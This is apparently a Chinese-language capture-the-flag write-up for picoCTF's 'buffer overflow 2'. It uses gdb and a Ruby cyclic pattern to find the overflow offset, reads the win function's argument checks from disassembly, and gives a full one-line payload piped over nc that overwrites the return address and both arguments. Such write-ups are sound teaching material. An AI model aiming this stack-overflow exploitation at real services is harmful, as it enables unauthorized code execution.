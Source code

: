 #### buffer overflow 2
这次除了要修改函数的返回地址, 还要修改函数的传入参数, 
坏了, 我不知道传入参数在哪里写啊, 所以先用土法来炼金. 

```shell
> file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=1c57f0cbd109ed51024baf11930a5364186c28df, for GNU/Linux 3.2.0, not stripped
> chmod +x vuln
> gdb ./vuln
gdb-peda$ r <<< $( ruby -e ' t = "z"; 200.times do print(t.succ!) end ' )
Stopped reason: SIGSEGV
0x66636563 in ?? ()
```

```irb
3.0.0 :001 > t = "z"; 200.times do print(t.succ!) end
aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazbabbbcbdbebfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzcacbcccdcecfcgchcicjckclcmcncocpcqcrcsctcucvcwcxcyczdadbdcdddedfdgdhdidjdkdldmdndodpdqdrdsdtdudvdwdxdydzeaebecedeeefegeheiejekelemeneoepeqereseteuevewexeyezfafbfcfdfefffgfhfifjfkflfmfnfofpfqfrfsftfufvfwfxfyfzgagbgcgdgegfggghgigjgkglgmgngogpgqgrgsgtgugvgwgxgygzhahbhchdhehfhghhhihjhkhlhmhnhohphqhr => 200 
3.0.0 :002 > s = "aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazbabbbcbdbe
bfbgbhbibjbkblbmbnbobpbqbrbsbtbubvbwbxbybzcacbcccdcecfcgchcicjckclcmcncocpcqcrcs
ctcucvcwcxcyczdadbdcdddedfdgdhdidjdkdldmdndodpdqdrdsdtdudvdwdxdydzeaebecedeeefeg
eheiejekelemeneoepeqereseteuevewexeyezfafbfcfdfefffgfhfifjfkflfmfnfofpfqfrfsftfu
fvfwfxfyfzgagbgcgdgegfggghgigjgkglgmgngogpgqgrgsgtgugvgwgxgygzhahbhchdhehfhghhhi
hjhkhlhmhnhohphqhr"
 => "aaabacadaeafagahaiajakalamanaoapaqarasatauavawaxayazbabbbcbdbebfbgbhb... 
3.0.0 :003 > addr = "\x66\x63\x65\x63"
 => "fcec" 
3.0.0 :004 > s.index addr.reverse
 => 112
```

一点点解释: 观察代码, 发现`win`函数里面, 比较的代码是: 
```asm
   0x0804930c <+118>:	cmp    DWORD PTR [ebp+0x8],0xcafef00d
   0x08049313 <+125>:	jne    0x804932f <win+153>
   0x08049315 <+127>:	cmp    DWORD PTR [ebp+0xc],0xf00df00d
   0x0804931c <+134>:	jne    0x8049332 <win+156>
```

于是只要往所谓的`ebp+0x8`和`ebp+0xc`里面写入想要的数据就好了. 
为了找到写的数据的位置, 也可以用更写一堆乱七八糟的东西, 
然后运行, 在比较的代码上面设断点, 最后看看数据就知道写了啥了. 

然后就是无聊的`playload`的时间了: 

```shell
ruby -e ' print "a" * 112 + "\x00\x00\x00\x00\x08\x04\x92\x96".reverse + "\xCA\xFE\xF0\x0D".reverse + "\xF0\x0D\xF0\x0D".reverse ' | nc saturn.picoctf.net 51137
```
